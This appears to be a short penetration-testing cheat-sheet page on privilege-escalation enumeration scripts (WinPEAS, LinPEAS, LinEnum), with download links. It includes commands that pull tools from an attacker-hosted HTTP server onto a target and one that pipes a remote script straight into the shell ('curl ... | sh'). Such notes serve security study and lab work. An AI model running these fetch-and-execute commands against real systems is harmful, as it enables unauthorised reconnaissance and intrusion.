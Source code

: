 # Enumeration Scripts

#### PEASS-ng - Privilege Escalation Awesome Scripts SUITE new generation

This is the go to script I use at the moment. Frequently updated, available here on GitHub:

{% embed url="https://github.com/carlospolop/PEASS-ng" %}

WinPEAS

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220731/winPEASx64.exe
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220731/winPEAS.bat
```

Pull to Windows box and execute one-liner:

```
PowerShell Invoke-WebRequest -Uri http://10.14.6.200:8000/winPEASx64.exe -Outfile winpeas.exe
```

LinPEAS

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220731/linpeas_linux_amd64
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220731/linpeas.sh
```

#### LinEnum

[LinEnum](https://github.com/rebootuser/LinEnum) is getting a bit old but still useful:

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...
```

Switch to box pull over and execute:

```bash
curl http://10.9.17.195:8000/LinEnum.sh | sh
```

####
